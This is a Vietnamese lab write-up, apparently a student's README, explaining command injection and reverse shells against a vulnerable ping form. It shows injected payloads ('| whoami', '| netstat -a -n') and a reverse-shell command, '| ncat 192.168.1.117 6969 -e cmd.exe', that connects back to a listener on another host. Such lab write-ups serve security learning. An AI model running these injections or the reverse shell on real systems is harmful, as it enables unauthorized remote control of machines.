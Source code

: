 Người thực hiện: Lê Trần Văn Chương.

Thời gian: 09/05/2022.

Mục lục:
- [Command Injection](#command-injection)
- [Back Connect - Reverse Shell](#back-connect---reverse-shell)

## Command Injection
- Command Injection là một cuộc tấn công trong đó mục tiêu là thực hiện các lệnh tùy ý trên hệ điều hành chủ thông qua một ứng dụng dễ bị tấn công. Các cuộc tấn công chèn lệnh có thể xảy ra khi một ứng dụng chuyển dữ liệu không an toàn do người dùng cung cấp (biểu mẫu, cookie, tiêu đề HTTP, v.v.) đến trình bao hệ thống. Trong cuộc tấn công này, các lệnh hệ điều hành do kẻ tấn công cung cấp thường được thực thi với các đặc quyền của ứng dụng dễ bị tấn công. Các cuộc tấn công chèn lệnh có thể xảy ra phần lớn do không đủ xác thực đầu vào.
- Ví dụ: 
    - Chức năng ping ip dưới đây.
    ![Hình 1.](~/../img/1.png)

    - Bây giờ, tôi sẽ thử chèn các command vào sau `localhost`. Đầu tiên, tôi sẽ thử dùng `; whoami` để xem thử nó có chạy không. Vì hiện lỗi, nên tôi tiếp tục chèn vào 1 lệnh khác `| whoami`, kết quả cũng ổn. Và tôi tiếp tục chèn các lệnh khác vào và kết quả như hình dưới.
    ![Hình 2.](~/../img/2.png)

## Back Connect - Reverse Shell
- Back Connect là một daemon tcp có khả năng chấp nhận và giữ nhiều kết nối. Ví dụ: Reverse Shell, cho các tương tác trong tương lai.
- Reverse Shell là một phiên trình shell được thiết lập trên một kết nối được khởi tạo từ một máy từ xa, không phải từ máy chủ của kẻ tấn công. Những kẻ tấn công khai thác thành công `remote command execution` có thể sử dụng `Reverse Shell` để có được phiên shell tương tác trên máy mục tiêu và tiếp tục cuộc tấn công của chúng. `Reverse shell` cũng có thể hoạt động trên NAT hoặc `firewall`. 

- Thông qua lỗi `Command Injection` ở trên. Chèn thêm `| netstat -a -n` để kiểm tra cổng nào đang mở (như hình dưới)
![Hình 4.](~/../img/4.png)

- Tiếp theo, chèn theo câu lệnh `| ncat 192.168.1.117 6969 -e cmd.exe` (vì 1 số vấn đề mà tôi sử dụng `local ip` để làm bài này) để có thể kết nối.
![Hình 5.](~/../img/5.png)

